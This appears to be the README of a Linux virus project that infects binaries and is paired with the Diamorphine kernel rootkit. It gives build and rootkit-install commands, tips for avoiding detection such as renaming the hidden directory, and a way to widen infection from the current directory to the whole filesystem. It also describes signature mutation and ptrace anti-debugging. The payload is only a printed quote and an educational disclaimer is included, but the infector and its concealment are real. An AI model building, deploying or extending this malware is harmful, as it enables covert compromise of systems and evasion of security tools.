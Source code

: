# Nestor_Makhno
Linux virus in C that uses mutation and rootkit functionality

Nestor Makhno is a simple Linux virus that uses a rootkit(Diamorphine) to help hide its tracks and avoid av detection. The historical Nestor Makhno was famous for a lot, but one thing was being the first to begin using machine guns on covered wagons. He didn't create machine guns or wagons, but he knew these things would work well together. His ideas are still credited as the first proto-tank and first drive-by shooting. The Diamorphine rootkit existed long before the virus code added here. Its mostly used to make the process invisible in the pids.c file. As-is, it will also be used to create a hidden directory in /dev/shm/diamorphine_secret_def_not_a_virus. To avoid detection we suggest renaming this directory in the code of simmple.c

$ grep mkdir virus/simple.c<br>
   mkdir("/dev/shm/diamorphine_secret_def_not_a_virus",0775);

Diamorphine will hide any folder on the system who's name begins with "diamorphine_secret". So be sure to include this with any locations that should be hidden. You may also want to build and run the virus portion of Nestor_Makhno from a folder like this to avoid dectection as well. 

To use this code, first go to the Diamorphine directory, build and install it:

$ cd ./Diamorphine
; make
; sudo insmod ./diamorphine.ko

If you expirence errors, you most likely do not have kernel headers installed. On Debian you may install them with the following:

$ sudo apt search linux-headers-$(uname -r)

Then go to the directory for the virus and build it:

$ cd ../virus
; make

To prevent abuse, there is no real payload used with this code. Instead only an infamous quote by the historical Nestor Makhno will be injected into binaries. After completing you will find a binary called 'Nester_Makhno' and another called 'hello' to be used for testing. The code is set here to only infect files in the same directory:

$ grep '^   scan' virus/simple.c<br>
   scan_dir(".", virus);

The above location may be editted to '/' or any desired location if you have a vm or sandbox. It should go without sayinig, but DO NOT RELEASE THIS CODE INTO THE WILD. THIS IS FOR TESTING AND EDUCATIONAL PURPOSES ONLY. I am not responsible for any damage this may cause and deepending on your location, running this code may be illegal on devices you do not own. So you have been warned. 

Running the code you will see the quote from our payload: 

$ cd ./virus
; ./Nestor_Makhno<br>
Death to all those who stand in the way of freedom for the working people!
 
You can silence this by outputting to /dev/null. After this, you will find the hello binary will also excute this quote:

$ ./hello        
Death to all those who stand in the way of freedom for the working people!<br>
Hello!

This is despite this string not being found in the code of hello.c:

$ cat ./hello.c <br>
#include <stdio.h> <br>

int main(){ <br>
&nbsp;&nbsp;&nbsp;&nbsp;printf("Hello!\n");<br>
}<br>

Using virus strategies of the past, the modify.c file in the virus directory is used to randomly obscure this code's signature in memory. Basically making this a mutation virus as well. PTRACE has been used in trace.c to help prevent debugging. Combined with the rootkit functionality, this will make detection much more difficult, but not impossible.

If you wish to make changes to this code, the following line will need to be updated:

$ grep 'define PARASITE_LENGTH' simple.c<br>
#define PARASITE_LENGTH 14800 /* PARASITE_LENGTH the size of compiling virus */

This will need to match the number of bytes in the compiled binary:

$ ls -l Nestor_Makhno<br>
-rwxr-xr-x 1 user user 14800 Mar  9 02:19 Nestor_Makhno

Otherwise functionality of the virus might cease to work correctly.

Information on the historical Nestor Makhno may be found here:

https://en.wikipedia.org/wiki/Nestor_Makhno

Information on the Diamorphine may be found here:

https://github.com/bms8197/diamorphine 

